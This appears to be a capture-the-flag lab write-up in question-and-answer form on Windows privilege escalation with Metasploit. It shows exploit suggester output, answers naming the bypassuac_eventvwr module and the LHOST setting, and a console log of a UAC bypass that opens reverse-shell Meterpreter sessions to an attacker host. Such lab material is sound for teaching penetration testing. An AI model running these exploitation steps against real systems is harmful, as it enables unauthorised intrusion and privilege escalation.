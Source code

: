```
A:

```
[*] 10.10.142.23 - Collecting local exploits for x86/windows...
[*] 10.10.142.23 - 37 exploit checks are being tried...
[+] 10.10.142.23 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.142.23 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.142.23 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

A: exploit/windows/local/bypassuac_eventvwr This was grabbed from running local exploit suggester via metasploit.

Q: Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

A: Listener IP is what the LHOST is refferred to. Use "show options" for further clarification.

Q: We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

A: SeTakeOwnershipPrivilege

```
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 6
session => 6
msf6 exploit(windows/local/bypassuac_eventvwr) > exploit

[*] Started reverse TCP handler on 10.6.46.243:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[*] Sending stage (175174 bytes) to 10.10.18.154
[*] Meterpreter session 7 opened (10.6.46.243:4444 -> 10.10.18.154:49184) at 2021-05-24 12:54:10 -0400
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to 10.10.18.154
[*] Meterpreter session 8 opened (10.6.46.243:4444 -> 10.10.18.154:49191) at 2021-05-24 12:54:17 -0400
[*] Cleaning up registry keys ...
meterpreter > getprivs
